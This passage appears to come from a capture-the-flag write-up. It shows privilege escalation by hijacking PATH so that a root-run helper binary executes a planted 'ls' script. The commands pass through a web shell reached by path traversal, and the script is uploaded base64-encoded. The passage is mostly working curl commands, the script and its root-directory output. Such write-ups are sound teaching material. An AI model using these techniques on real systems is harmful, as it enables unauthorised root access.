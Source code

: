 ### Privilege Escalation

What `/bin/files` does is to basically set the effective user to `root` and to run `ls` (as root).
Naively, this prints the contents of the current working directory. But what if we can trick the program into executing a different `ls`, such as a script we choose to call `ls`? In that case, it will execute the script as root, running any commands we feed it. Let's do that.

First, we set up a working directory:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=mkdir /tmp/.w"
<pre></pre>
```

Then, we craft the script we want to run. Here it is:
```bash
export PATH=/tmp/.w:$PATH
cd /tmp/.w
echo "/bin/ls -alR  /root > /tmp/.w/out.txt" > ls
chmod +x ls
/bin/files
```

What this says is:
1. Update the `PATH` so that our working directory is first in the search path (before `/bin/ls`)
2. Cd into our working directory
3. Create the `ls` script we want to run: It will print the contents of `/root` into `out.txt`
4. Make the script executable
5. Run `/bin/files` which will execute our `ls` script

We encode the script as base64 and upload it to the server, saving it as `script`:

```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell&command=ls" -X POST --data-urlencode "cmd=echo ZXhwb3J0IFBBVEg9L3RtcC8udzokUEFUSApjZCAvdG1wLy53CmVjaG8gIi9iaW4vbHMgLWFsUiAgL3Jvb3QgPiAvdG1wLy53L291dC50eHQiID4gbHMKY2htb2QgK3ggbHMKL2Jpbi9maWxlcw== | base64 -d > /tmp/.w/script"  && echo
```

We make it executable:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=chmod +x /tmp/.w/script"
```

Run it, and read the result:

```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=/tmp/.w/script" 
<pre>Welcome!
This is your files:
</pre>root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=ls -al /tmp/.w" 
<pre>total 16
drwxr-xr-x 2 www-data www-data 4096 Feb 16 18:23 .
drwxrwxrwt 3 root     root     4096 Feb 16 18:21 ..
-rwxr-xr-x 1 www-data www-data   32 Feb 16 18:23 ls
-rw-r--r-- 1 root     root        0 Feb 16 18:23 out.txt
-rwxr-xr-x 1 www-data www-data  106 Feb 16 18:22 script
</pre>
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell" -X POST --data-urlencode "cmd=cat /tmp/.w/out.txt"
<pre>/root:
total 192
drwx------  7 root root   4096 Feb  9 02:52 .
drwxr-xr-x 23 root root   4096 Feb 11 06:45 ..
-rw-------  1 root root  17256 Feb 13 13:53 .bash_history
-rw-r--r--  1 root root   3106 Apr  9  2018 .bashrc
```